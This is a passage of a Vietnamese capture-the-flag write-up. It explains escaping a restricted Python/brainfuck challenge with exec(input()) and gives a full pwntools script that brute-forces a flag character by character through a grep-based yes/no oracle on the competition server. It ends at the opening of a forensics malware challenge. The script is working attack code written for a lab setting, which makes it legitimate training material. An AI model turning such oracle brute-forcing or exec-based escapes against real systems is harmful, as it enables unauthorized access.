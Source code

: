 Ta có thể thấy code chỉ cho thực thi mã ```brainfuck-language``` và giới hạn độ dài các kí tự là 200

Đơn giản là có thể thể mở một ```input``` mới bằng lệnh ```exec(input())``` sẽ được chạy lệnh tùy ý

https://www.dcode.fr/brainfuck-language

## Vibes

Chúng ta kết nối nc đến server và nhập một lệnh bất kì và server chỉ trả về đúng hoặc không, Vì vậy chúng ta có thể brute force từng kí tự của flag bằng cách sử dụng ```grep```

```python
from pwn import *

context.log_level = 'error'
HOST = 'chal.wwctf.com'
PORT = 6001

charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_'

def check_guess(guess):
    try:
        io = remote(HOST, PORT)
        io.recvuntil(b'> ')
        io.sendline(f'grep ^{guess} *')
        res = io.recvuntil(b'> ', drop=True).decode(errors='ignore')
        io.close()
        return 'Good Vibes' in res
    except:
        return False

flag = 'wwf{'

while not flag.endswith('}'):
    for c in charset:
        guess = flag + c
        print(f'Trying: {guess}')
        if check_guess(guess):
            flag += c
            print(f'[+] Found so far: {flag}')
            break
    else:
        print('[-] No match found for next char, stopping.')
        break

print(f'[🎉] Final Flag: {flag}')
```

# Forensics

## Silver Moon
>Rumors whisper of a shadow moving beneath the Silver Moon.<br>
Investigate the strange occurrences and reveal the demon’s hidden technique before it’s too late<br>
WARNING: Do not run the malware file on your PC.<br>
https://powershell.wwctf.com/<br> 